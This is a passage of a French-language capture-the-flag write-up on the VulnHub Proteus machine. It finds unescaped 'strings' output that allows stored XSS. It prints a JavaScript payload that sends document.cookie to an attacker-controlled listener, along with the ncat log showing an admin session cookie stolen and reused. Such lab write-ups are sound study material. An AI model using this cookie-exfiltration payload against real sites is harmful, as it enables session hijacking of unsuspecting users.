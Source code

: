 
Quand on regarde le code source de la page de l'analyse on remarque que certains caractères ne sont pas échappés correctement (ici un guillemet) laissant supposer que l'output de la commande strings n'est pas proprement échappé et donc vulnérable à une faille XSS :  

```html
name<br />
help<br />
version<br />
;*3$"<br />
.shstrtab<br />
.interp<br />
.note.ABI-tag<br />
```

On sait d'après l'interface qu'un administrateur nommé *malwareadm* existe... Et c'est devenu assez fréquent qu'un comportement humain soit simulé sur les CTFs (merci les browsers headless).  

Pour faire propre j'ai utilisé le même javascript que pour [le CTF RedCross](http://devloop.users.sourceforge.net/index.php?article191/solution-du-ctf-redcross-de-hackthebox) :  

```javascript
<script>var img = document.createElement("img"); img.src = "http://192.168.3.254:8000/?" + encodeURI(document.cookie); document.body.appendChild(img);</script>
```

Ça finit par toquer à la porte :  

```plain
Ncat: Version 7.01 ( https://nmap.org/ncat )
Ncat: Listening on :::8000
Ncat: Listening on 0.0.0.0:8000
Ncat: Connection from 192.168.3.2.
Ncat: Connection from 192.168.3.2:43926.
GET /?proteus_session=1562973841%257C6DykMjVayEuyDaO2MA75biEkHpbkAeEpgelifplF8t624gsReZu3kbj6FPy%252Fr66tM6LauT9b5v4RGyOJeW6M4qM60m7d%252Fqgz%252BXIsZru6FsbM53W27Dp%252FeBgqtjMuamgk%257Ccbbdae8d8104e586184dd1db69af8c4add06addb HTTP/1.1
Referer: http://127.0.0.1/samples
User-Agent: Mozilla/5.0 (Unknown; Linux i686) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-ZA,*
Host: 192.168.3.254:8000
```

Une fois le cookie injecté dans notre navigateur via *EditThisCookie* on a droit à un bouton supplémentaire pour la suppression des samples :  

![VulnHub CTF Proteus sample admin button](https://raw.githubusercontent.com/devl00p/blog/master/images/vulnhub/proteus/malwareadm.png)

